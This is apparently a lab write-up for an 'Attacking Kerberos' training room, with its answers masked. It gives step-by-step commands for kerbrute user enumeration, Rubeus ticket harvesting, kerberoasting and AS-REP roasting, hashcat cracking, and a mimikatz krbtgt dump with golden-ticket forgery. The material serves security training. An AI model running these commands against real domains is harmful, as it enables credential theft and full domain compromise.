 # Attacking Kerberos

- What does TGT stand for?

	- `ticket granting ticket`

- What does SPN stand for?

	- `service principal name`

- What does PAC stand for?

	- `privilege attribute certificate`

- What two services make up the KDC?

	- `AS, TGS`

- Deploy the Machine

	  no answer needed

- How many total users do we enumerate?

	- `sudo vim /etc/hosts`, insert the row `<TARGET_IP>	CONTROLLER.local`
	- Download [User.txt](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)
	- `kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt`
	- `**`

- What is the SQL service account name?

	- `sql*******`

- What is the second "machine" account name?

	- `*******2`

- What is the third "user" account name?

	- `****3`

- Which domain admin do we get a ticket for when harvesting tickets?

	- `ssh Administrator@controller.local`, `yes` and inters password.
	- `cd Downloads`
	- `Rubeus.exe harvest /interval:30`
	- `echo <TARGET_IP> CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`
	- `Rubeus.exe brute /password:Password1 /noticket`
	- `Ad************`

- Which domain controller do we get a ticket for when harvesting tickets?

	- `**********-1`

- What is the HTTPService Password?

	- `cd Downloads`
	- `Rubeus.exe kerberoast`
	- `copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat`
	- [wordlist](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt)
	- `hashcat -m 13100 -a 0 hash.txt Pass.txt`
	- `**********`

- What is the SQLService Password?

	- `**************`

- What hash type does AS-REP Roasting use?

	- `cd Downloads`
	- `Rubeus.exe asreproast`
	- `Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file`
	- `Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....`
	- `hashcat -m 18200 hash.txt Pass.txt`
	- `Kerberos * ****** ***** **`

- Which User is vulnerable to AS-REP Roasting?

	- `****3`

- What is the User's Password?

	- `*********3`

- Which Admin is vulnerable to AS-REP Roasting?

	- `*****2`

- What is the Admin's Password?

	- `**********`

- I understand how a pass the ticket attack works

	  no answer needed

- What is the SQLService NTLM Hash?

	- `cd downloads && mimikatz.exe`
	- `privilege::debug`
	- `lsadump::lsa /inject /name:krbtgt`
	- `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`
	- `misc::cmd`
	- `****************************`

- What is the Administrator NTLM Hash?

	- `****************************`

- I understand how to implant a skeleton key into a domain controller with mimikatz

	  no answer needed

- I Understand the Basics of Attacking Kerberos

	  no answer needed
